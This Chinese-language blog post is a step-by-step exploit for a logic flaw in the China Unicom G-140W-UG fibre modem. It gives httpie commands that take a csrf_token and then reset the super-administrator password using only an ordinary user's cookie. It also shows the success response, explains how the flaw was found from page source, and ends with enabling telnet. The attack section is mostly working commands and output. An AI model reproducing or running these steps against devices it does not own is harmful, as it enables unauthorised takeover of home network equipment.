 ```yaml
---
title: 联通 G-140W-UG 光猫管理员密码
date: 2022-08-30
tags: [networking, hack]
---
```


# 利用逻辑漏洞重设超级管理员密码

首先使用光猫默认用户登录(用户名和密码在光猫底部贴纸上)，然后从浏览器开发人员工具复制 Cookie：

```
Cookie: lsid=NZFrDLysprLjJKHU; lang=chs; sid=gkXdVRffiwhKzDhI
```

下面的步骤需要安装 `httpie`, 读者亦可自行将下面的命令翻译成对应的 `curl` 命令。

执行下面的命令来获取 `csrf_token`

```sh
http 192.168.1.1/user.cgi 'Cookie: lsid=LztHASdNNYtwxHVp; lang=chs; sid=SuTqIMDGFNSwjFVU' | grep csrf_token 
```

在输出中可以找到 `csrf_token`.

```js
                    settings.data = 'csrf_token=NKnoyiroxbYTHiLd';
                    if (settings.data.indexOf("csrf_token") < 0)
                        settings.data += '&csrf_token=NKnoyiroxbYTHiLd'
        $("form").prepend('<input type="hidden" name="csrf_token" value="NKnoyiroxbYTHiLd" />');
```

然后执行下面的命令来设置光猫超级管理员密码：

```sh
http -f '192.168.1.1/user.cgi?set_super' pswdNewSuper=新的管理员密码 pswdConfirmSuper=新的管理员密码 csrf_token=上面的csrf_token '你的Cookie'
```

将上述变量都带进去之后，命令会像下面这样：（注意：不要设置像 12345678 这样的弱密码）

```sh
http -f '192.168.1.1/user.cgi?set_super' pswdNewSuper=12345678 pswdConfirmSuper=12345678 csrf_token=NKnoyiroxbYTHiLd 'Cookie: lsid=LztHASdNNYtwxHVp; lang=chs; sid=SuTqIMDGFNSwjFVU'
```

最后返回结果应该包含设置成功的消息。

```http
HTTP/1.0 200 OK
Cache-Control: private,max-age=0;
Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'
Content-type: text/html;charset=UTF-8;
Strict-Transport-Security: max-age=2592000; includeSubdomains
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block

{
    "err": "unknown error",
    "msg": "设置成功",
    "ret": 0
}
```

如果你没有看到设置成功的消息，而是 `302 Found` 的话，大概率是你的 Cookie 过期了，请重新登录光猫，获取新的 Cookie。

## 这个漏洞是如何被发现的

登录普通账户之后查看 `login.cgi` 页面的源代码，可以发现普通的密码设置和管理员密码的设置过程都写在里面。

```js
$("#edit").click(function(){
    $("#edit").prop("disabled",true);
    var p1=$.trim($(":input[name='pswdNewSuper']").val())
    var p2=$.trim($(":input[name='pswdConfirmSuper']").val())
    if(p1!=p2){
        alert("密码不匹配");
        $("#edit").prop("disabled",false);
        return false;
    }
    if(!p1 && !p2){
        alert("新密码不能为空");
        $("#edit").prop("disabled",false);
        return false;
    }
    if(p1.length<8){
        alert("密码需要大于等于八位");
        $("#edit").prop("disabled",false);
        return false;
    }
    $.post(location.pathname+"?set_super",$("form").serialize(),null,'json')
        .done(function(data){
            alert(data.msg);
        })
        .always(function(){
            window.location.href=window.location.href;
        })
})
```
- `$.post(location.pathname+"?set_super",$("form").serialize(),null,'json')` 这行代码指出了设置管理员密码的 URL。
- ```js
  var p1=$.trim($(":input[name='pswdNewSuper']").val())
  var p2=$.trim($(":input[name='pswdConfirmSuper']").val())
  ```
  指出了设置管理员密码需要的表单字段。

随后，经过测试，我发现使用普通用户的 Cookie 值就能调用此接口重设超级管理员密码。


# 开启 telnet

前往光猫登录页面，使用刚才重设的密码登录管理员账户。

然后在浏览器中打开 `http://192.168.1.1/system.cgi?telnet` 这个页面，可以点击开启按钮来启用 telnet.

然后便可以 `telnet 192.168.1.1` 连进光猫愉快的玩耍了！
